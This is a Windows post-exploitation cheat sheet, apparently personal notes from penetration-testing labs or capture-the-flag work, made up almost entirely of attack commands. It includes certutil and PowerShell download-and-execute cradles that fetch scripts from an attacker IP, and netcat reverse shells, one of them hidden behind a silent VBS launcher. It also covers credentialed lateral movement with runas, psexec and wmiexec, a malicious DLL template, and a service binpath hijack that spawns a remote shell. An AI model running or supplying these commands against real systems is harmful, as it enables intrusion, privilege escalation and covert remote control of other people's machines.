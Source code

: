 #find file 
dir directory\*.txt /s /p
dir C:\proof.txt /s /p
dir C:\network-secret.txt /s /p


#find Alternate Data Stream
##Find all files in a direcory
dir /R 
##find only ADS
dir   /s /r | find ":$DATA"

dir   /s /r | find ":$DATA" | findStr proof.txt
#use streams from sysinternal
streams.exe -accepteula -s

certutil -urlcache -split -f http://192.168.119.149/nc.exe nc.exe

certutil -urlcache -split -f http://192.168.119.149/winPEAS/winPEASx64.exe win.exe

#Run file remotely
powershell -C IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.149/Invoke-PowerShellTcp.ps1')

powershell -C "IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.149/Invoke-PowerShellTcp.ps1')"

powershell -C "IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.149/Sherlock.ps1'); Find-AllVulns "

powershell -C "IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.149/powerUp.ps1');"

powershell -C "IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.149/jaws-enum.ps1');"

powershell -C "IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.149/Sherlock.ps1'); "

powershell -C IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.149/Sherlock.ps1')

powershell -C IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.149/powershell_attack.txt')

$scriptPath = ((new-object net.webclient).DownloadString('http://192.168.43.1/toto.ps1'))
Invoke-Command -ScriptBlock ([scriptblock]::Create($scriptPath)) -ArgumentList "coucou","tata"

#Encoded command powershell

cat shell3 | iconv --to-code UTF-16LE |   base64 -w 0
powershell -EncodedCommand JwBtAGkAawBlAGYAcgBvAGIAYgBpAG4AcwAuAGMAbwBtACcA


#Calling a specific PowerShell function from the command line
powershell -File script.ps1 -Command My-Func
powershell -File Sherlock.ps1 -Command Find-AllVulns
powershell -File jaws-enum.ps1 -OutputFileName Jaws-Enum.txt

more < letter.txt
type letter.txt | more 


#Download file

$url = "http://192.168.119.149/powerUp.ps1";$output = "C:\Users\Chase\Desktop\powerUp.ps1";$wc = New-Object System.Net.WebClient;$wc.DownloadFile($url, $output);

certutil -urlcache -split -f http://192.168.119.149/nc.exe nc.exe

certutil -urlcache -split -f http://192.168.119.149/winPEAS/winPEASx64.exe win.exe

(new-object System.Net.WebClient).DownloadFile('http://192.168.119.149/powerUp.ps1','C:\Windows\Temp\test\powerup.ps1')

(new-object System.Net.WebClient).DownloadFile('http://192.168.119.149/jaws-enum.ps1','C:\Windows\Temp\test\jaws-enum.ps1')

(new-object System.Net.WebClient).DownloadFile('http://192.168.119.149/Sherlock.ps1','C:\Windows\Temp\test\Sherlock.ps1')

(new-object System.Net.WebClient).DownloadFile('http://192.168.119.149/windows-exploit-suggester.py','C:\Windows\Temp\test\windows-exploit-suggester.py')


powershell (new-object System.Net.WebClient).DownloadFile('http://192.168.119.149/MS16-032.ps1','C:\Users\kostas\Desktop\MS16-032.ps1')

powershell -C IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.149/MS16-135.ps1')

#Auto-Login (User pivoting)

$passwd = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force;

$creds =New-Object System.Management.Automation.PSCredential('administrator', $passwd)

Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://192.168.119.149/Invoke-PowerShellTcp.ps1')" -Credential $creds

#or

Invoke-command -Computer fidelity -scriptblock { c:\\inetpub\\wwwroot\nc.exe 10.10.14.94 1234 -e powershell.exe } -Credential $creds


#Runas
cat shell3 | iconv --to-code UTF-16LE |   base64 -w 0

runas /profile /savecred /user:ACCESS\Administrator "cmd /c ping -n 1 192.168.119.149" 

runas /profile /savecred /user:ACCESS\Administrator "powershell -C IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.149/Invoke-PowerShellTcp.ps1')" 

Another simple way is
runas /user:ACCESS\Administrator /savecred "powershell -C IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.36/Invoke-PowerShellTcp3.ps1')"


#Invoke command (Run a script as another user with creds found)
$password = convertto-securestring -AsPlainText -Force -String "36mEAhz/B8xQ~2VM"; 

$credential = new-object -typename System.Management.Automation.PSCredential -argumentlist "SNIPER\chris", $password;

Invoke-Command -ComputerName LOCALHOST -ScriptBlock { whoami } -credential $credential;




#copy big file 
*/opt/impacket/examples/smbserver.py test . -smb2support -username guest -password guest (on linux)

*net use x: \\192.168.119.149\test  /user:guest guest 
*cmd /c "copy firefox.exe_200131_084937.dmp x:\"

#Connect as Admin 
python /opt/impacket/examples/psexec.py active/Administrator:Ticketmaster1968@10.10.10.100
python /opt/impacket/examples/psexec.py active/Administrator@10.10.10.100

python /opt/impacket/examples/wmiexec.py active.htb/administrator:ThePassword@10.10.10.100


#Backgroud shell

## On linux
cat << EOF > hidden.vbs
Set WshShell = CreateObject("WScript.Shell")
WshShell.Run chr(34) & "C:\windows\temp\test\nc.bat" & Chr(34), 0
Set WshShell = Nothing
EOF

cat << EOF > nc.bat
C:\windows\temp\test\nc.exe 192.168.119.149 443 -e cmd
EOF

## On windows
```
certutil -urlcache -split -f http://192.168.119.149/hidden.vbs

certutil -urlcache -split -f http://192.168.119.149/nc.bat

certutil -urlcache -split -f http://192.168.119.149/nc.exe

cmd /c cscript hidden.vbs
```
### compilation
#### compile a malicious dll
```
For x64 compile with: "x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll"
For x86 compile with: "i686-w64-mingw32-gcc windows_dll.c -shared -o output.dll"
```
##### Content of windows_dll.c
```
#include <windows.h>
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k whoami > C:\\Windows\\Temp\\dll.txt");
        ExitProcess(0);
    }
    return TRUE;
}
```

#### Edit Service
```
sc config upnphost binpath= "C:\Inetpub\nc.exe 192.168.1.101 6666 -e c:\Windows\system32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc config upnphost depend= ""
sc  start upnphost

Get-Service upnphost | start-service
```
